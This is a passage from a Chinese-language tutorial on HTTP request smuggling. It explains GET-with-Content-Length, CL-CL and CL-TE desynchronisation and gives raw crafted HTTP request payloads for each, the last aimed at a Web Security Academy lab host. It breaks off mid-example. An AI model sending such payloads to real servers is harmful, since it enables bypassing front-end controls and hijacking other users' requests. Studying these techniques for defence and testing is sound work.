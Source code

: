 ### 3.1 CL不为0的GET请求

前端代理服务器允许GET请求携带请求体，但后端服务器不允许GET请求携带请求体，则后端服务器会忽略掉GET请求中的`Content-Length`，不进行处理，从而导致请求走私。

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 44\r\n

GET / secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

前端服务器收到该请求，通过读取`Content-Length`，判断这是一个完整的请求，然后转发给后端服务器，而后端服务器收到后，因为它不对`Content-Length`进行处理，由于`Pipeline`的存在，它就认为这是收到了两个请求。

### 3.2 CL-CL

假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回400错误，但是中间代理服务器按照第一个`Content-Length`的值对请求进行处理，而后端服务器按照第二个`Content-Length`的值进行处理。这样有可能引发请求走私。

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n

12345\r\n
a
```

前端代理服务器获取的数据包长度为 8，将以上数据包完整转发至后端服务器，但后端服务器仅接收长度为7的数据包。因此读取前7个字符后，后端服务器认为本次请求已经读取完毕，然后返回响应。

但此时缓冲区仍留下一个a，对于后端服务器来讲，这个a是下一个请求的一部分，但没传输完毕。如果此时传来一个请求

```
GET / HTTP/1.1
HOST: test.com
```

那么前端服务器和后端服务器将重用TCP连接，使后端实际接收的请求为：

```
aGET / HTTP/1.1
HOST: test.com
```

从而实现了一次HTTP请求攻击。

### 3.3 CL-TE

所谓`CL-TE`，就是当收到存在两个请求头的请求包时，前端代理服务器只处理`Content-Length`这一请求头，而后端服务器会遵守`RFC2616`的规定，忽略掉`Content-Length`，处理`Transfer-Encoding`这一请求头。

构造数据包

```
POST / HTTP/1.1\r\n
Host: ace01fcf1fd05faf80c21f8b00ea006b.web-security-academy.net\r\n
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
Accept-Language: en-US,en;q=0.5\r\n
Cookie: session=E9m1pnYfbvtMyEnTYSe5eijPDC04EVm3\r\n
Connection: keep-alive\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
```
